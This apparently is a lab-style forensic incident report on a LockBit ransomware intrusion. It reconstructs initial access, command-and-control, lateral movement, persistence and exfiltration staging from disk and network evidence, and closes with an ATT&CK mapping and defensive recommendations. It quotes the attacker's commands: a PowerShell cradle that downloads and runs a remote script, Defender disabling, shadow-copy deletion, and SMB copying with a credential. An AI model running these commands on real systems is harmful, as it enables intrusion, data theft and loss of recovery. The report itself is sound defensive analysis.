







# Meridian Financial Services Ransomware Incident

## Executive Summary

This investigation found evidence of a ransomware intrusion affecting a Windows workstation assigned to `Philip.Green`. The incident appears to have started with a malicious macro-enabled Word document named `Invoice_March2024.docm`. The document led to PowerShell-based payload staging from `meridian-invoices.com`, command-and-control communication with `185.220.101.47`, disabling of Windows Defender real-time monitoring, deletion of shadow copies, lateral movement to `192.168.1.88`, staging of user documents for exfiltration, and LockBit ransomware execution.

## Scope

The investigation reviewed the following public evidence:

- `meridian_workstation.E01`
- `meridian_incident.pcap`

The analysis focused on initial access, execution, command and control, lateral movement, exfiltration staging, defense evasion, and ransomware indicators.

## Evidence Handling

The original evidence ZIP hash was verified before analysis:

```text
F875B60AB2DF099805978DE9A2DA74EE
```

The distributed network capture was named `meridian_incident.pcap`, but its container format was malformed pcapng. A clean analysis copy was rebuilt from the packet records into standard libpcap format for Wireshark review. The original evidence should be retained separately from any derived analysis copy.

## Findings

### Initial Access

The suspected initial access vector was a malicious macro-enabled Word document:

```text
Invoice_March2024.docm
```

Autopsy identified this document on disk with the following MFT timestamps:

```text
Created:       2026-05-23 16:27:59.259975300 CDT
File Modified: 2026-05-23 16:27:59.260092100 CDT
MFT Modified:  2026-05-23 16:27:59.260092100 CDT
Accessed:      2026-05-23 16:27:59.259975300 CDT
```



Autopsy also identified a Prefetch artifact for Microsoft Word:

```text
C:\Windows\Prefetch\WINWORD.EXE-2A1C9F83.pf
```

The presence of `WINWORD.EXE` Prefetch supports that Microsoft Word executed on the workstation. This supports user interaction with the malicious Office document, though the Autopsy view used in this investigation exposed file system metadata rather than parsed Prefetch run counts or internal last-run times.

### Execution and Staging

The malicious document led to a PowerShell download cradle:

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://meridian-invoices.com/stage1.ps1')
```



Additional Prefetch artifacts support execution of multiple programs associated with the attack sequence:

```text
CMD.EXE-089EA4C0.pf
LOCKBIT.EXE-AB4F7C2D.pf
MSHTA.EXE-F3C91B22.pf
NET.EXE-3F8B1C44.pf
POWERSHELL.EXE-7B9D2A1F.pf
SVCHOST_TMP.EXE-9E3D7B02.pf
VSSADMIN.EXE-D1A34E88.pf
WINWORD.EXE-2A1C9F83.pf
```

These artifacts align with document execution, script execution, command execution, lateral movement, anti-recovery activity, staged payload execution, and ransomware execution.



### Command and Control

Network evidence showed `192.168.1.45` resolving `meridian-invoices.com` and communicating with `185.220.101.47`.



The malware configuration also identified the same C2 address:

```json
{
  "version": "2.0",
  "victim_id": "4A9F2E8B-7C31-4D56-A091-F3E28C107B44",
  "c2": "185.220.101.47",
  "exfil_target": "https://mega.nz/upload",
  "ext": ".lockbit",
  "note": "Restore-My-Files.txt",
  "kill_shadow": true,
  "kill_av": true
}
```



### Defense Evasion and Anti-Recovery

The attacker disabled Windows Defender real-time monitoring:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

The attacker also deleted shadow copies:

```cmd
vssadmin delete shadows /all /quiet
wmic shadowcopy delete
```

These actions reduced endpoint protection and impaired recovery from local volume shadow copies.

### Lateral Movement

The attacker accessed internal host `192.168.1.88` over SMB and copied a staged executable to the remote administrative share:

```cmd
net use \\192.168.1.88\C$ /user:MERIDIAN\Philip.Green P@ssw0rd2024!
copy C:\Windows\Temp\svchost_tmp.exe \\192.168.1.88\C$\Windows\Temp\
```

This activity indicates use of valid credentials and administrative SMB access for lateral movement or remote staging.



### Persistence and Privilege Activity

The attacker added a Run key value for persistence:

```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "WindowsUpdateHelper" /t REG_SZ /d "C:\Windows\Temp\svchost_tmp.exe" /f
```

The attacker also added `Philip.Green` to the local administrators group:

```cmd
net localgroup administrators Philip.Green /add
```

### Collection and Exfiltration Staging

The attacker compressed the user Documents folder into a ZIP archive:

```powershell
Compress-Archive -Path "C:\Users\Philip.Green\Documents" -DestinationPath "C:\Windows\Temp\exfil_pack.zip"
```

The malware configuration identified the exfiltration target as:

```text
https://mega.nz/upload
```

Network traffic included DNS resolution for `g.api.mega.co.nz` and outbound HTTPS traffic to `185.235.81.22`, supporting possible exfiltration activity.



### Ransomware Impact

The ransomware family was identified as LockBit based on the configuration and artifacts:

- Extension: `.lockbit`
- Ransom note: `Restore-My-Files.txt`
- Executable Prefetch: `LOCKBIT.EXE-AB4F7C2D.pf`
- LockBit onion domain lookup:

```text
lockbitapt6vx57t3eeqjofwgcglmutr3a35nygvokja5uuccip4ykyd.onion
```

## Timeline Summary

1. `Invoice_March2024.docm` was downloaded or placed on the workstation.
2. Microsoft Word execution was supported by `WINWORD.EXE` Prefetch.
3. The document triggered a PowerShell download cradle for `stage1.ps1`.
4. The host communicated with `meridian-invoices.com` and `185.220.101.47`.
5. Windows Defender real-time monitoring was disabled.
6. Shadow copies were deleted using `vssadmin` and `wmic`.
7. The attacker accessed `192.168.1.88` over SMB.
8. `svchost_tmp.exe` was copied to the remote administrative share.
9. A Run key was added for `WindowsUpdateHelper`.
10. `Philip.Green` was added to the local administrators group.
11. User documents were compressed into `C:\Windows\Temp\exfil_pack.zip`.
12. Network traffic showed communication with Mega infrastructure.
13. LockBit ransomware indicators were observed.

## MITRE ATT&CK Mapping

| Tactic | Technique | Evidence |
| --- | --- | --- |
| Initial Access | Phishing: Spearphishing Attachment | `Invoice_March2024.docm` |
| Execution | Command and Scripting Interpreter: PowerShell | `IEX(New-Object Net.WebClient).DownloadString(...)` |
| Execution | User Execution: Malicious File | `WINWORD.EXE` Prefetch and malicious `.docm` |
| Persistence | Registry Run Keys / Startup Folder | `WindowsUpdateHelper` Run key |
| Privilege Escalation | Account Manipulation | `net localgroup administrators Philip.Green /add` |
| Defense Evasion | Impair Defenses | `Set-MpPreference -DisableRealtimeMonitoring $true` |
| Impact | Inhibit System Recovery | `vssadmin delete shadows`, `wmic shadowcopy delete` |
| Lateral Movement | SMB/Windows Admin Shares | `\\192.168.1.88\C$` access |
| Collection | Archive Collected Data | `Compress-Archive` to `exfil_pack.zip` |
| Exfiltration | Exfiltration Over Web Service | `https://mega.nz/upload` |
| Impact | Data Encrypted for Impact | `.lockbit`, `Restore-My-Files.txt`, `LOCKBIT.EXE` |

## Recommendations

- Block or restrict Office macros from internet-sourced documents.
- Enforce PowerShell logging, Constrained Language Mode where appropriate, and script block monitoring.
- Enable Microsoft Defender tamper protection and alert on Defender configuration changes.
- Alert on `vssadmin delete shadows`, `wmic shadowcopy delete`, and suspicious recovery deletion commands.
- Restrict SMB administrative share access and monitor `C$` usage between workstations.
- Enforce least privilege for user accounts and review local administrator membership.
- Apply egress filtering for unknown domains, suspicious hosting providers, and unauthorized cloud upload services.
- Train users to report unexpected invoices, macro prompts, and suspicious Office documents.

## Limitations

- Autopsy displayed file system metadata for Prefetch files, but parsed Prefetch run counts and internal last-run timestamps were not reviewed.
- Some timestamps differ between disk artifacts and network evidence. These differences should be treated cautiously and documented as evidence-source timestamp limitations.
- The investigation relied on available public evidence and did not include live response, endpoint telemetry, or domain controller logs.
